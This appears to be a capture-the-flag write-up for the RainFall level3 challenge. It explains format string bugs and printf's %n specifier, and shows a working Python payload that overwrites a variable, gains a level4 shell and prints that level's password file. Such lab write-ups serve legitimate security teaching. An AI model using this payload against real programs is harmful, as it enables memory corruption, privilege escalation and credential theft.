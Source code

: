

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa

level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520

Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf() and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/


#include<stdio.h>

int main()

{

    int c;
    printf("123456789A%n     \n", &c);
    printf("%d", c);
    return 0;
    
    // output
    // 123456789A     
    // 10
    
}

* Geeks4Geeks

"the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf



```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from [the stanford article](https://cs155.stanford.edu/papers/formatstring-1.2.pdf):
```
a way to directly address a stack parameter from within the format string[...]
The direct parameter access is controlled by the ‘$’ qualifier.
printf ("%6$d\n", 6, 5, 4, 3, 2, 1);
Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the
stack. 
```
so in our case
```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```

```
level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60 + "%4$n"' ; cat ) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
whoami
level4
cat //home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
"A" * 60 <===> "%60c"

ressource

[1](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[2](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b)




